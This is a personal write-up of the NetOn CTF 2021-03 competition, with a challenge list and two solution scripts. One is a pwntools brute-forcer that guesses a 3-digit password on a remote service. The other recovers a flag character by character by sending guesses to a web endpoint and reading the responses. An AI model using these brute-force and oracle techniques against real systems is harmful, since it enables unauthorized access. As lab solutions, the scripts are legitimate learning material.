



# NetOn CTF 2021-03

I was excited to participate in my first ever CTF and enjoyed the experienced very much. Thanks to all of those involved in setting it up! ~<3

There were a total of 9 categories with 43 questions combined.

CTF Rules:


Final Top 10:


## Pwn Category

### Limited - 499


```
#!/usr/bin/env python3

# Imports
from pwn import *

# Connect parameters
host = "167.99.129.209"
port = 10002

pwd = 0
while pwd < 1000:
	# Open connection
	s = remote(host, port)
	s.recvuntil("\n")
	# Loop over given tries (re-connect afterwards)
	for j in range(3):
		# Increment trial 3-digit password and send
		pwd += 1
		s.sendline(str(pwd))
		# Get return
		rstr = s.recvuntil("\n", drop=True).decode("latin-1")
		print(rstr)
		s.recvuntil("\n")
		# Check return string
		if rstr[0] != 'S':
			print(rstr)
			pwd += 1000
		# Visual check of progress
		if pwd % 100 == 0:
			print(pwd)
	# Close connection
	s.close()
```

Although the password is randomised (as could be deduced from the provided ELF), a 3-digit password can be easily brute-forced. So to no surprise, at some point this script got lucky and got returned:

```
Nice! The flag is NETON{N1c3_ByP4sS_My_Fr13eND!}
```

I'm not sure whether this counts as a bypass... but hey, it worked. : )

## Web Category

### Welcome to FilterLand - 208

### Picnicnic - 222




### Let me in! - 245




### Grades - 486

## Stego Category

### Jungle Meeting - 50

### Seeing blurry - UNSOLVED (50)

### Winter - 218

### Step by step - UNSOLVED (250)

### Invisibility - UNSOLVED (500)

## OSINT Category

### Caesar's Secret - 163

### Caputure The Flag - 436

## Crypto Category

### PawN PawN - 188

### Weak xor - 239

### BritishScientific - 242

### Facts Br0! - 244

### Not Morse - UNSOLVED (249)

### RSA... no primEs, no problEm - 500

## Coding Category

### Run Run Run - 215

### Step by step - 239



```
#!/usr/bin/env python

# Imports
import requests

# All ASCII characters
chrs = [chr(i) for i in range(256)]
# All characters that returned 'getting closer'
chrs = '0134:ABCDEFGLNOSTU_abcdefghilmnorstuv{}' 

#  Trial flag
flag = "S"

i = 0
while i<len(chrs):
	# Create new flag to try
	new_flag = chrs[i] + flag 
	# Push the flag to the website
	push = requests.post("http://167.99.129.209:7788/index.php",data={'flag':new_flag})
	# Check return html
	pt = push.text[50:80]
	# Check for return
	print new_flag, pt
	if pt[0] == 'H':
		flag = new_flag
		i = 0
		print flag
	elif pt[0] == 'S':
		i += 1
	else:
		print 'Found it?:', flag
		break

# Print found result
print flag
```

With some trial and error I managed to get back

```
SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3,
```

which, submitted as NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}, turned out to be correct. : )


### SecretMessage - 247

## Forensics Category

### Infiltration - 183

### Picasso01 - 225

### Lost in Lab - 479

## Reversing Category

### File Bomb - UNSOLVED (475)

## Misc Category

### Inception - 183

### Photogra.fy - 227

### Kasiski the magician - UNSOLVED (235)

### MathTomata - 245

### Gotta catch em flag - 248

